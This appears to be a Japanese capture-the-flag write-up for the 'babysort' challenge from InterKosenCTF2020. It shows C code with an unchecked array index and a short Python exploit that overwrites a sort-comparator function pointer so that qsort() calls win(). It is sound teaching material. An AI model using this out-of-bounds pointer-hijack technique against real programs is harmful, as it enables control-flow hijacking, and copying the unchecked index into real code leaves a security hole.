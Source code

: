# babysort - InterKosenCTF2020

この問題は`qsort()`関数の第四引数の関数ポインタに`win()`関数を指定することが目的。

## 解法

`qsort()`の定義は以下のようになっている。
```c
#include <stdlib.h>

void qsort(void *base, size_t nel, size_t width,
           int (*compar)(const void *, const void *));
```

次に`SortExperiment`構造体で「要素」と「比較をする関数ポインタを格納する配列」がまとめられている。
```c
//void*を２つ受け取ってint型を返す(*SORTFUNC)
typedef int (*SORTFUNC)(const void*, const void*);

typedef struct {
  long elm[5];
  SORTFUNC cmp[2];
} SortExperiment;

...

int cmp_asc(const void *a, const void *b) { return *(long*)a - *(long*)b; }
int cmp_dsc(const void *a, const void *b) { return *(long*)b - *(long*)a; }

int main(void) {
  SortExperiment se = {.cmp = {cmp_asc, cmp_dsc}};
  ...
```

このプログラムでは比較関数を選択する処理に、
入力されたインデックスを確認していないので範囲外参照ができる脆弱性がある。
```c
  /* sort */
  printf("[0] Ascending / [1] Descending: ");
  if (scanf("%d", &i) != 1) exit(1);
  qsort(se.elm, 5, sizeof(long), se.cmp[i]);
```

また、メモリ上では`elm[4]`と`cmp[-1]`が等しいので、`elm[4]`に`win()`関数ポインタを置き、
インデックスに`-1`を指定することで`win()`関数を呼び出す。

```python
set_elm(b"1")
set_elm(b"3")
set_elm(b"2")
set_elm(b"5")
set_elm(b(str(e.sym["win"])))

call(b"-1")
```
